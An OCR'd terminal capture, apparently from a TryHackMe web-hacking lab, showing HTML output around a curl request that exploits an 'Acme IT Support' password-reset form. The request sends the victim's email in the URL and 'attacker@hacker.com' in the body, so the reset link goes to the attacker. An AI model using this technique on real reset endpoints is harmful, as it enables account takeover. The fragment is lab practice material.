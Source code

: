 ```
                <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
                    <span class="sr-only">Toggle navigation</span>
                    <span class="icon-bar"></span>
                    <span class="icon-bar"></span>
                    <span class="icon-bar"></span>
                </button>
                <a class="navbar-brand" href="#">Acme IT Support</a>
            </div>
            <div id="navbar" class="collapse navbar-collapse">
                <ul class="nav navbar-nav">
                    <li><a href="/">Home</a></li>
                    <li><a href="/news">News</a></li>
                    <li><a href="/contact">Contact</a></li>
                    <li class="active"><a href="/customers">Customers</a></li>
                </ul>
            </div><!--/.nav-collapse -->
        </div>
    </nav><div class="container" style="padding-top:60px">
    <h1 class="text-center">Acme IT Support</h1>
    <h2 class="text-center">Reset Password</h2>
    <div class="row">
        <div class="col-md-4 col-md-offset-4">
                        <div class="alert alert-success text-center">
                <p>We'll send you a reset email to <strong>robert@acmeitsupport.thm</strong></p>
            </div>
                    </div>
    </div>
</div>
<script src="/assets/jquery.min.js"></script>
<script src="/assets/bootstrap.min.js"></script>
<script src="/assets/site.js"></script>
</body>
</html>
<!--
Page Generated in 0.04433 Seconds using the THM Framework v1.2 ( https://static-labs.tryhackme.cloud/sites/thm-web-framework )
-->                                                                                           
┌──(kali㉿kali)-[/usr/share/seclists/Usernames/Names]
└─$ curl 'http://10.10.235.218/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Acme IT Support - Customer Login</title>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
        <link rel="stylesheet" href="https://pro.fontawesome.com/releases/v5.12.0/css/all.css" integrity="sha384-ekOryaXPbeCpWQNxMwSWVvQ0+1VrStoPJq54shlYhR8HzQgig1v5fas6YgOqLoKz" crossorigin="anonymous">
        <link rel="stylesheet" href="/assets/bootstrap.min.css">
    <link rel="stylesheet" href="/assets/style.css">
</head>
<body>
    <nav class="navbar navbar-inverse navbar-fixed-top">
        <div class="container">
            <div class="navbar-header">
                <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
                    <span class="sr-only">Toggle navigation</span>
                    <span class="icon-bar"></span>
                    <span class="icon-bar"></span>
```
